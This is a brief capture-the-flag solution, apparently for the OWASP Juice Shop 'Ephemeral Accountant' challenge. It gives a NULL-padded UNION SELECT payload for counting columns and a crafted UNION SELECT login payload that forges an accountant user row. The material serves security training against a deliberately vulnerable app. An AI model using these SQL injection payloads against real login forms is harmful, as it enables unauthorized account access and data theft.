



# Ephemeral Accountant

Exfiltrate the entire DB schema definition via SQL Injection.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings

# Solve

Bruteforcing the column ammount using 

```
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```



Until the error is wrong email or password instead of column size of right and left not matching or something like that.



Craft this payload. Use as the email

```
' UNION SELECT 67,'acc0unt4nt@juice-sh.op','acc0unt4nt@juice-sh.op','password','accounting','123','1.2.3.4','/assets/public/images/uploads/default.svg','',1,12983283,133424,NULL--
```

and use password as the password (basically make it the same as the 4th column)

